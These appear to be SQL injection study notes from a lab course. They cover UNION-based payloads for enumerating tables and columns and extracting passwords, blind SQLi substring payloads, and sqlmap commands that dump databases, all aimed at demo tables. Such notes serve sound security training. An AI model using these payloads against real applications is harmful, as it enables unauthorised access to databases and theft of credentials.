 # SQL injection

### SQL Injection - Introduction

```
# start the mysql service
sudo systemctl start mysql

# login to mysql
sudo mysql

# create the db and tables
CREATE DATABASE sqldemo;
use sqldemo;
CREATE TABLE users (
	username varchar(255),
	password varchar(255),
	age int,
	PRIMARY KEY (username)
);

# insert data into the users table
INSERT INTO users (username,password,age)
VALUES ("jessamy","kittems",31);
```

### SQL injection - UNION

Try and force SQL errors with `'` or `"`

Use `#` or `-- -` to comment out the remaining query

Find injection with ojectively true statements `' or 1=1#`

Use union to pull data from tables and columns that aren't part of the SQL query

Union select can only select the same number of columns as the original query

Determine how many columns are being used with `null`:

`jeremy' union select null#`
`jeremy' union select null,null#`
`jeremy' union select null,null,null#`

Query the DB version with a union select:

`jeremy' union select null,null,version()#`

Table names:

`jeremy' union select null,null,table_name from information_schema.tables#`

Column names:

`jeremy' union select null,null,column_name from information_schema.columns#`

Exfiltrate passwords:

`jeremy' union select null,null,password from injection0x01#`

Null's may not work as the type won't match with the column (null is a string)

Use `null(int)` or basic integers instead:

`jeremy' union select null(int),1,password from injection0x01#`

[Portswigger SQLi cheat sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)

### SQL injection - Blind

Check Content length headers for a successful request vs a failure as indicators for blind SQLi

Use burp suite repeater to test parameters. Check headers for injectable parameters (Cookies, User-Agent, 
etc.)

The search bar in Repeater will display matches to a keyword when the requests complete

Save a request from Burp by copy pasting into a text file, then run sqlmap with the request

`sqlmap -r req.txt`

Blind SQLi can only be used to obtain true or false responses

[Checking string values with SUBSTRING()](https://www.w3schools.com/sql/func_sqlserver_substring.asp) allows us to enumerate usernames, passwords, DB version, etc.

Blind SQL payloads:

Check version

`' and 1=1 and substring((select version()), 1, 1) = '8'#`
`' and 1=1 and substring((select version()), 1, 2) = '8.'#`
`' and 1=1 and substring((select version()), 1, 3) = '8.0'#`
`' and 1=1 and substring((select version()), 1, 5) = '8.0.3'#`

Password of a known user

`' and 1=1 and substring((select password from tablename where username = 'username'), 1, 1) = 'a'#`

Use sqlmap to test Cookies with `--level=2`

`sqlmap -r req.txt --level=2`

Dump the DB

`sqlmap -r req.txt --level=2 --dump`

Only dump a specific table

`sqlmap -r req.txt --level=2 --dump -T injection0x02`

### SQL injection Challenge

Find number of columns:

`' union select null,null,null,null#`

Find table names:

`' union select null,null,null,table_name from information_schema.tables#`

Find column names:

`' union select null,null,null,column_name from information_schema.columns where table_name = 'injection0x03_users'#`

Find usernames:

`' union select null,null,null,username from injection0x03_users#`
